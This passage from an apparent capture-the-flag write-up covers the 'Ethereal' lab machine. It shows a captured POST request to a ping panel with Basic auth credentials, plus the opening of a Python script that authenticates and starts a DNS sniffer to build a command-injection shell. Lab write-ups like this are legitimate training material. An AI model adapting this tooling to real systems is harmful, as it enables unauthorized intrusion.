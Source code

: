 ### Interact With Page

Now I need to build in interaction with the Ping Panel. If I go into burp, and
look at a POST to the page, I’ll notice a few things:

    
    
    POST / HTTP/1.1
    Host: ethereal.htb:8080
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://ethereal.htb:8080/
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 289
    Authorization: Basic YWxhbjohQzQxNG0xN3k1N3IxazNzNGc0MW4h
    Connection: close
    Upgrade-Insecure-Requests: 1
    
    __VIEWSTATE=%2FwEPDwULLTE0OTYxODU3NjhkZP0D71BrdSC2r6xNMsSvx5TLwDHEW3R5Nu77TRePe554&__VIEWSTATEGENERATOR=CA0B0334&__EVENTVALIDATION=%2FwEdAAOSdp36r9zrz%2Bs0ovq%2FbSa14CgZUgk3s462EToPmqUw3OKvLNdlnDJuHW3p%2B9jPAN8kvJMME1vv%2Bx5EO%2Fp9qTNUHD5bMT5kaL78WVMNT%2BVpZw%3D%3D&search=127.0.0.1&ctl02=
    

I need the http basic auth, and I need to get a handful of parameters for the
POST request.

#### Basic Auth

I’ll start with the basic auth. I’ll be using the `requests` module to make
HTTP requests, so I’ll follow the guidance from the
[documentation](http://docs.python-
requests.org/en/master/user/authentication/#basic-authentication) for using
basic auth. I’m going to build this initial query in the `__init__` method, as
that is where it will eventually end up. To start, I’ll have it fetch the page
and print it on init:

    
    
      1 #!/usr/bin/env python3
      2 
      3 import requests
      4 from cmd import Cmd
      5 from requests.auth import HTTPBasicAuth
      6 from scapy.all import *
      7 from threading import Thread
      8 
      9 
     10 class dns_sniff(Thread):
    ...
     27 class Terminal(Cmd):
     28     prompt = "ethereal> "
     29     
     30 
     31     def __init__(self):
     32         super().__init__()
     33         auth = HTTPBasicAuth('alan','!C414m17y57r1k3s4g41n!')
     34         resp = requests.get('http://ethereal.htb:8080/', auth=auth)
     35         print(resp.text)
     36 
     37 
     38     def default(self, args):
     39         print(f"Entered: {args}")
     40 
     41 
     42 dns = dns_sniff(interface='eth0', target_ip='10.1.1.153')
     43 dns.start()